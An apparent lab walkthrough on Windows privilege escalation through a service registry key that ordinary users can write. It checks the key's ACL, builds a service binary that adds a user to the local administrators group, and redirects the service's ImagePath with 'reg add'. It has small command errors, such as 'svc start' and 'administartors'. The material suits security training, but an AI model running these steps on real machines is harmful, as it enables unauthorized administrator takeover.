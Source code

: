 # Task 5 - Service Escalation (Registry)

Flaws in permissions of registry entries. Windows stores local configuration info in registry under `HKLM\System\CurrentControlSet\Service`

## RDP Session

1. Open powershell and type the command `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`

**Options : Get-Acl - Gives us the access list of the file
fl - Format List**

2. Output

```
Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\Cur
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl => This user has full control.
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;B
```

## Exploit

Copy the file `C:\Users\User\Desktop\Tools\Source\windows_service.c` to our local machine.

1. Edit the code in system section 

```
cmd.exe /k net localgroup administrators user /add

**Syntax : net user <username> /add**
```

2. x86_64-w64-mingw32-gcc windows_service.c -o x.exe 

3. Transfer x.exe to RDP session and place it in `C:\Temp`

4. In RDP session in command prompt type `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\x.exe /f`

**Syntax : REG ADD keyname (Path of subkey. Valid registry keys in Remote session is HKLM & HKU)
		   /v (valuename) specifies name for registry key to be added
           /t Type of registry key entries
           /d data
           /f add/delete an entry without prompting**

5. In cmd prompt , type `svc start regsvc`

6. POC : Type `net localgroup administartors`
